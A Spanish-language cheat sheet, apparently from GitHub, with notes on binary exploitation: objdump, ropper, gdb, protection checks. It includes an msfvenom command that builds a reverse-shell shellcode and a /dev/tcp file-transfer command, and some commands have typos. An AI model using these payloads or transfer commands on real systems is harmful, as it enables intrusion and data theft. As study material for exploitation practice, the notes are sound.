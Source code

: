 # Explotación de binarios (by CUCUxii)

## Índice 
- [Que es un binario](#Inicio)





---------------------------------------------------------------------------
## ¿Que es un binario?

Un binario, es lo que resulta de compilar un código en lenguaje C o java. Este código se ha traducido a bytes, que equivalen a lenguaje máquina, instrucciones 
que van directamente al procesador sin un intermediario (como puede ser con lenguajes interpretados como Python) Por tanto si intentas abrir un binario con 
nano o vim te encontrarás algunas cadenas legibles entre un lío de "@" y "." 
   - Como ya hemos dicho, son todo bytes, asi que si hay un "x41" lo traducirá a ascii como una "A", pero si hay un byte que no tenga dicho traduccion a ascii, 
   nano los escribirá como  estos "@" y ".".
   
Aunque ya hayamos perdido la capacidad de leer el código del binario (si no tenemos su codigo.c sin compilar claro), esas insutrcciones al procesador de las que
habíamos habaldo antes si que son legibles como código de **Ensamblador** o lenguaje de bajo nivel. El ensamblador es más abstracto que un código Python, 
y si lo ves por primera vez, puede asustar un poco. Pero al final se trata de insutrcciones muy simples (que pasaré a explicar en otro post)

---------------------------------------------------------------------------

## Compartir el binario

```console
[10.10.20.20]~$: cat < ./binario > /dev/tcp 10.10.10.10/443; md5sum bianrio 
348235923523958  /opt/bianrio
[cucuxii@parrot]~$: nc -nlvp 443 > binario; md5sum bianrio 
348235923523958  /opt/bianrio  # Ver si coinciden (que no se haya modificado el binario por el camino)
``` 

---------------------------------------------------------------------------

## Conocer el binario

   ### Protecciones:
   Los binarios cuentan con varios tipos de protecciones disponibles, conocer estas es ideal para saber que tipo de ataque podríamos probar
   
```console
[cucuxii@parrot]~$: for i in $(seq 1 20); do ldd ./binario | grep libc | awk 'NF{print NF}' | tr-d '()'; done
# Ver si cambian las direcciones de memoria
``` 
 
 
---------------------------------------------------------------------------

## Objdump

- **Ver la direccion de las funciones**
```console
[cucuxii@parrot]~$: objdump -D ./bianrio | grep "printf"
00000000118b <printf@plt>:    # La direccion de printf (llamada a plt) en el bianrio es 118b
```
- **Ver todas las funciones**
```console
[cucuxii@parrot]~$: objdump -t ./bianrio | grep "text"  # Filtramos por la seccion text que es el codigo ensamblador
000000001172 g F .text     filecount    # La direccion de la funcion "filecount" es 1172
#####  Lo mismo con el resto de funciones
```

---------------------------------------------------------------------------

## Radare2

---------------------------------------------------------------------------

## Ropper

Ropper encuentra los gadgets para programacion "ROP", corre el bianrio una vez para cargar datos en memoria y enontrar las instrucciones.
```pip install ropper```
```console
[cucuxii@parrot]~$: ropper --search "pop rdi" -f ./binario
0x5555558cb: pop rdi, ret
```
---------------------------------------------------------------------------

## GDB

- gef
Evitar que cree un fork -> set-detach-on-fork off     set follow-fork-mode child


---------------------------------------------------------------------------

## Shellcodes

 - Msfvenom -> ``` msfvenom -p linux/x86/shell_Reverse_tcp LHOST=10.10.10.10 LPORT=443 -b "\x00\x0a" -f python```





